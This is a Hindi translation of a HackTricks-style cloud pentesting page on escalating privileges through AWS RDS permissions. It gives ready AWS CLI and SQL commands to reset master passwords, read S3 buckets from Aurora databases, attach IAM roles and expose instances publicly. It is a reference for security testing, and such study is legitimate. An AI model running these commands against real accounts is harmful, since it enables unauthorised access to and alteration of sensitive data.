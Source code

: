 # AWS - RDS Privesc

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS रेड टीम एक्सपर्ट)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)\*\* पर फॉलो\*\* करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## RDS - संबंधित डेटाबेस सेवा

RDS के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

इस अनुमति के साथ एक हमलावर **मास्टर उपयोगकर्ता का पासवर्ड संशोधित कर सकता है**, और डेटाबेस के अंदर लॉगिन:

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
आपको **डेटाबेस से संपर्क करने** की आवश्यकता होगी (वे सामान्यत: केवल नेटवर्क के अंदर से ही पहुंचे जा सकते हैं)।
{% endhint %}

**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी खोजना।

### rds-db:connect

[**दस्तावेज़**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) के अनुसार इस अनुमति वाले उपयोगकर्ता को डीबी इंस्टेंस से कनेक्ट करने की अनुमति हो सकती है।

### RDS भूमिका IAM अनुमतियों का दुरुपयोग करें

#### Postgresql (Aurora)

{% hint style="success" %}
यदि **`SELECT datname FROM pg_database;`** चलाते समय आपको एक डेटाबेस मिलता है जिसका नाम **`rdsadmin`** है, तो आप जान जाते हैं कि आप एक **AWS postgresql डेटाबेस** के अंदर हैं।
{% endhint %}

सबसे पहले आप यह जांच सकते हैं कि क्या इस डेटाबेस का उपयोग किसी अन्य AWS सेवा तक पहुंचने के लिए किया गया है। आप इसे स्थापित एक्सटेंशन्स देखकर जांच सकते हैं:

```sql
SELECT * FROM pg_extension;
```

यदि आप कुछ ऐसा पाते हैं जैसे **`aws_s3`** तो आप यह मान सकते हैं कि इस डेटाबेस के **S3 पर किसी प्रकार का एक्सेस** है (अन्य एक्सटेंशन जैसे **`aws_ml`** और **`aws_lambda`** भी हो सकते हैं)।

इसके अलावा, यदि आपको **`aws rds describe-db-clusters`** चलाने की अनुमति है तो आप देख सकते हैं कि क्या **क्लस्टर में कोई IAM Role जुड़ा हुआ** है फ़ील्ड **`AssociatedRoles`** में। यदि हां, तो आप यह मान सकते हैं कि डेटाबेस **अन्य AWS सेवाओं तक पहुँचने के लिए तैयार की गई थी**। रोल के **नाम** (या यदि आप **रोल की अनुमतियों** को प्राप्त कर सकते हैं) के आधार पर आप **अनुमान लगा सकते** हैं कि डेटाबेस के पास किस प्रकार का अतिरिक्त एक्सेस है।

अब, **बकेट के अंदर एक फ़ाइल पढ़ने** के लिए आपको पूरा पथ पता होना चाहिए। आप इसे पढ़ सकते हैं:

```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```

यदि आपके पास **कच्चे AWS क्रेडेंशियल्स** होते, तो आप इनका उपयोग करके S3 डेटा तक पहुंच सकते थे:

```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```

{% hint style="info" %}
Postgresql **को S3 तक पहुंचने के लिए किसी भी पैरामीटर समूह चर को बदलने की आवश्यकता नहीं है**।
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
एक mysql में, यदि आप क्वेरी **`SELECT User, Host FROM mysql.user;`** चलाते हैं और वहाँ एक उपयोगकर्ता है जिसका नाम **`rdsadmin`** है, तो आप मान सकते हैं कि आप **AWS RDS mysql db** के अंदर हैं।
{% endhint %}

mysql के अंदर **`show variables;`** चलाएं और यदि चर जैसे **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** के मान हैं, तो आप मान सकते हैं कि डेटाबेस S3 डेटा तक पहुंचने के लिए तैयार है।

इसके अलावा, यदि आपको **`aws rds describe-db-clusters`** चलाने की अनुमति है तो आप जांच सकते हैं कि क्लस्टर के पास कोई **संबंधित भूमिका** है, जिसका मतलब आम तौर पर AWS सेवाओं तक पहुंच है)।

अब, **एक बकेट के अंदर एक फ़ाइल पढ़ने** के लिए आपको पूरा पथ पता होना चाहिए। आप इसे पढ़ सकते हैं:

```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```

### `rds:AddRoleToDBCluster`, `iam:PassRole`

एक हमलावर जिसके पास `rds:AddRoleToDBCluster` और `iam:PassRole` अनुमतियाँ हैं, **एक मौजूदा RDS इंस्टेंस में एक निर्दिष्ट भूमिका जोड़ सकता है**। यह हमलावर को **संवेदनशील डेटा तक पहुंचने** या इंस्टेंस के भीतर डेटा को **संशोधित करने** की अनुमति दे सकता है।

```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```

**संभावित प्रभाव**: RDS इंस्टेंस में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।\
ध्यान दें कि कुछ डीबीज़ अतिरिक्त कॉन्फ़िगरेशन की आवश्यकता होती है जैसे Mysql, जिसे aprameter समूहों में भूमिका ARN को निर्दिष्ट करने की आवश्यकता होती है।

### `rds:CreateDBInstance`

केवल इस अनुमति के साथ ही एक हमलावर एक **मौजूदा क्लस्टर के भीतर एक नया इंस्टेंस** बना सकता है जिसमें पहले से ही एक **IAM भूमिका** जुड़ी होती है। उसे मास्टर उपयोगकर्ता पासवर्ड बदलने की अनुमति नहीं होगी, लेकिन वह नए डेटाबेस इंस्टेंस को इंटरनेट पर प्रकट कर सकता है:

```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```

### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
कार्य: जांच
{% endhint %}

एक हमलावर जिसके पास `rds:CreateDBInstance` और `iam:PassRole` अनुमतियाँ हैं, **एक नया RDS इंस्टेंस एक निर्दिष्ट भूमिका संलग्न करके बना सकता है**। हमलावर फिर संभावित रूप से **संवेदनशील डेटा तक पहुंच सकता है** या इंस्टेंस के भीतर डेटा को संशोधित कर सकता है।

{% hint style="warning" %}
संलग्न करने के लिए कुछ आवश्यकताएँ भूमिका/इंस्टेंस-प्रोफ़ाइल की (यहाँ से [**यहाँ**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* प्रोफ़ाइल को आपके खाते में मौजूद होना चाहिए।
* प्रोफ़ाइल में एक IAM भूमिका होनी चाहिए जिसे Amazon EC2 को अनुमतियाँ स्वीकार करने के लिए हों।
* इंस्टेंस प्रोफ़ाइल नाम और संबंधित IAM भूमिका नाम `AWSRDSCustom` उपसर्ग से शुरू होना चाहिए।
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**संभावित प्रभाव**: आरडीएस इंस्टेंस में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन करने की अनुमति।

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` और `iam:PassRole` अनुमतियों के साथ एक हमलावर **मौजूदा आरडीएस इंस्टेंस में एक निर्दिष्ट भूमिका जोड़ सकता है**। यह हमलावर को **संवेदनशील डेटा तक पहुंचने** या इंस्टेंस के भीतर डेटा को संशोधित करने की अनुमति दे सकता है।

{% hint style="warning" %}
इसके लिए डीबी इंस्टेंस को एक क्लस्टर के बाहर होना चाहिए
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**संभावित प्रभाव**: आरडीएस इंस्टेंस में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में** देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)\*\* पर फॉलो\*\* करें।
* **हैकिंग ट्रिक्स साझा करें** हैकट्रिक्स और हैकट्रिक्स क्लाउड github रेपो में पीआर जमा करके।

</details>
